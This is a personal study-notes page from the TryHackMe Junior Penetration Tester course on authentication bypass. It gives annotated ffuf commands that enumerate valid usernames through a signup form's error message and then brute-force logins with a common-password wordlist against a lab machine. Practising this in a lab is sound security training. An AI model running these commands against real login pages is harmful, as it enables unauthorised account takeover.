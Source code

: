 # Today-I-Learnt

## TIL 05/06/2022

### Docker Network


### Linux Monitoring


### Tryhackme
#### Course 1. Jnr Pentester 
##### Chapter 1. Authentication Bypass
```bash
# Fuzzing a username
# Which ever field needs to be fuzzed should have a value set as 'FUZZ' 
# '-mr' is the flag used to slect what is the valid output we are looking for in the page
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 

# Fuzzing password
# When we pass the file as values to the field we use '-w'
# -fc flag is used for status code we are looking for
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.228.119/customers/login -fc 200

```
